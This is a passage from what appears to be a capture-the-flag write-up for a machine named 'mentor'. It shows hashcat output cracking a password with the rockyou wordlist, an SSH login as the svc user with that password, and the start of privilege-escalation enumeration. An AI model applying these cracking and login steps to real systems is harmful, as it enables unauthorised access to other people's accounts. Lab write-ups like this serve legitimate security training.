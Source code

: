 ```bash
Time.Started.....: Sun Feb 26 15:31:07 2023 (2 secs)
Time.Estimated...: Sun Feb 26 15:31:09 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  6440.5 kH/s (0.12ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 13326336/14344384 (92.90%)
Rejected.........: 0/13326336 (0.00%)
Restore.Point....: 13323264/14344384 (92.88%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123qwe1q -> 123kof321
Hardware.Mon.#1..: Util: 31%

Started: Sun Feb 26 15:30:55 2023
Stopped: Sun Feb 26 15:31:10 2023
```

The password was cracked in a few seconds. I used it to ssh to the server as svc.

```bash
$ ssh svc@target
svc@target's password:
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-56-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Feb 26 08:32:32 PM UTC 2023

  System load:                      0.00439453125

...

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Dec 12 10:22:58 2022 from 10.10.14.40

svc@mentor:~$ 
```

## User james

This one took me a lot of time to get. I started by looking at the common things. I could not run sudo, and did not find any interesting suid binaries. I also check for files with capabilities, but again nothing.

I checked for cronjobs.
